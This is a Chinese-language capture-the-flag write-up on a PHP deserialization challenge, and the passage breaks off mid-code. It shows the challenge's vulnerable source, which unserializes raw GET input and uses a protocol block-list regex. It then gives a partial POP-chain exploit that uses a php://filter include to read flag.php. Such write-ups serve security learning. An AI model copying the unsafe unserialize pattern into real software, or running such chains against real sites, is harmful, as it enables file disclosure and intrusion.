 ```php
}

class Jie_Xusheng {
    public $sha;
    public $jiu;

    public function __construct($secret = 'reward.php') {
        $this->sha = $secret;
    }
    
    public function __toString() {
        return $this->jiu->sha;
    }
    
    public function __wakeup() {
        if (preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->sha)) {
            echo "你休想偷看吴国机密";
            $this->sha = "reward.php";
        }
    }

}

echo '你什么都没看到？那说明……有东西你没看到<br>';

if (isset($_GET['xusheng'])) {
    @unserialize($_GET['xusheng']);
} else {
    $a = new Jie_Xusheng;
    highlight_file(__FILE__);
}

// 铸下这铁链，江东天险牢不可破！

```

php反序列化，

复现：TieSuoLianHuan类中有个文件包含漏洞，最后要拿到flag，肯定要文件包含的

说真的有个非常大的脑洞，要把GuDingDao结尾的o改为0才能执行成功，逆如天！

构造的反序列化连子：	

```php
<?php

class GuDingDa0 {
    public $desheng;

    public function __get($yishi) {
        $dingjv = $this->desheng;
        $dingjv();
        return "下次沙场相见, 徐某定不留情";
    }

}

class TieSuoLianHuan {
    protected $yicheng="php://filter/convert.base64-encode/resource=flag.php";

    public function append($pojun) {
        include($pojun);
    }
    
```